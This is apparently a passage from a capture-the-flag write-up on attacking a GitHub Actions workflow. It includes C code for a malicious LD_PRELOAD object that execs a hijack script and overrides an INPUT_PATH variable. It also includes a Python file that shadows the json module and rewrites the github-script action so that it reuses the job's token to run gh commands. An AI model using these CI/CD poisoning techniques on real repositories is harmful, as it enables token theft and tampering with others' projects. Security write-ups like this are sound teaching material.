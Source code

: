 ```c
    // Count environment variables
    int count = 0;
    while (environ[count])
      count++;

    // Allocate new environment array
    char **filtered_env = malloc((count + 1) * sizeof(char *));
    int j = 0;

    // Copy all environment variables except LD_PRELOAD
    for (int i = 0; environ[i]; i++) {
      if (strncmp(environ[i], "LD_PRELOAD=", 11) != 0) {
        filtered_env[j++] = environ[i];
      }
    }
    filtered_env[j] = NULL;

    execve("/usr/bin/python3", (char *[]){"python3", "hijack.py", NULL},
           filtered_env);
  } else if (pid > 0) {
    int status;
    waitpid(pid, &status, 0);
  }

  setenv("INPUT_PATH",
         "/home/runner/work/KONTINUERLIG-msanft/KONTINUERLIG-msanft/json.py",
         1);
}
```

This executes the `hijack.py` script directly. So did we win already? Not quite, since
we're being executed in the context of the `pre-check` job, which only has `contents: read` permissions.

However, GitHub Actions input variables within a job are being set via environment variables (of form `INPUT_*`),
which we can manipulate in our malicious shared object as well. So by setting the `INPUT_PATH` variable, we can
overwrite the artifact that's being uploaded to the `comment` step with the `pull-requests: write` permission.

In this case, we can exploit this by uploading a `json.py` file, which shadows the `json` Python standard library
import:

```py
with open("changed-files.txt", "w") as f:
    f.write("no!\n")

with open("/home/runner/work/_actions/actions/github-script/v7/dist/index.js", "w") as f:
    f.write("""
process.env.GH_TOKEN = process.env['INPUT_GITHUB-TOKEN'];
            
const { execSync } = require('child_process');
            
let output = execSync('gh label create flag --repo kontinuerlig-chal/KONTINUERLIG-msanft --color "d73a4a" --description flag', { encoding: 'utf-8' });
console.log(output);
output = execSync('gh label create reviewed --repo kontinuerlig-chal/KONTINUERLIG-msanft --color "d73a4a" --description reviewed', { encoding: 'utf-8' });
console.log(output);
            
// output = execSync('gh pr edit --add-label "reviewed" --repo kontinuerlig-chal/KONTINUERLIG-msanft 2', { encoding: 'utf-8' });
// console.log(output);
```

[^1]: <https://x.com/pspaul95/>
[^2]: <https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows#pull_request_target>
[^3]: <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>
[^4]: <https://codeql.github.com/codeql-query-help/actions/actions-envvar-injection-critical/>
[^5]: <https://docs.github.com/en/actions/how-tos/write-workflows/choose-what-workflows-do/use-secrets>
[^6]: <https://fusectore.dev/2021/11/19/github-action-problem-matchers.html>, <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/docs/adrs/0276-problem-matchers.md?plain=1#L23>
[^7]: <https://github.com/actions/runner/blob/60af948051cbeaf51d87397c40354c1496fcdd8f/src/Runner.Worker/ActionCommandManager.cs#L493>
[^8]: <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>